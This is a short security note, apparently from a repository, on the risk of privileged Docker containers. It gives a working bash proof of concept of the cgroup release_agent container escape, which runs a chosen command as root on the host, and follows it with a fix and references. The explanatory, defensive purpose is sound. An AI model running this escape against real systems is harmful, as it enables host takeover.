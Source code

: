 # Privileged Docker Container

## Issue
Any docker container running as privileged has sufficient privledges to execute commands as root on the host operating system via:

1. Mounting the host root partition
2. Directly executing processes outside of the container namespace

## Example

The following POC is modified from https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
```bash
  d=$(dirname "$(ls -x /s*/fs/c*/*/r* | head -n1)")
  mkdir -p "$d/w"
  echo 1 >"$d/w/notify_on_release"
  t="$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)"
  touch /o
  echo "$t/c" >"$d/release_agent"
  printf "#!/bin/sh\n%s > %s/o" "$cmd" "$t">/c
  chmod +x /c
  sh -c "echo 0 >$d/w/cgroup.procs"
  sleep 1
  cat /o
  # Tidy up
  rm /c /o
```

## Fix
The solution is to avoid using privileged containers when possible.

## Resources
- [understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
- [exploit-db](https://www.exploit-db.com/exploits/47147)


